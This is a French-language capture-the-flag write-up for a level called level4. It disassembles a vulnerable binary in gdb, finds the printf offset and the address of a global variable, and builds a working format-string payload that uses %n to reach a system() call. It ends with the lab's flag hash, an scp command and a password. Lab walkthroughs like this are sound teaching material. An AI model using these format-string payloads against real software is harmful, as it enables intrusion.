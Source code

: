 On se connecte sur le level4, ou se trouve un **binaire** <code>level4</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level4 -q
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) > disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) > disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf** comme pour **level3**

On commence par chercher l'**Offset**:
<pre><code> > python -c 'print "BBBB" + "|%08x" * 12' | ./level4
BBBB|b7ff26b0|bffff794|b7fd0ff4|00000000|00000000|bffff758|0804848d|bffff550|00000200|b7fd1ac0|b7ff37d0|42424242
</code></pre>
> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:
<pre><code>> objdump -t level4 | grep m
level3:     file format elf32-i386
...
08049810 g     O .bss   00000004              m
...</code></pre>

```gdb
> python -c 'print "\x10\x98\x04\x08" + "%12$08n"' > /tmp/payload2
> gdb -q level4
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) > b *0x08048492
Breakpoint 1 at 0x8048492
(gdb) > run < /tmp/payload2
Starting program: /home/user/level4/level4 < /tmp/payload2


Breakpoint 1, 0x08048492 in n ()
(gdb) > x/x 0x8049810
0x8049810 <m>:  0x00000004
```
On sait que l'on cherche 16930116 (0x1025544), donc il nous manque 16930112

<pre><code>> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$08n"' | ./level4
...
                                   -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
</code></pre>

For download :
<pre><code>scp -P4242 level4@192.168.1.78:level4 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
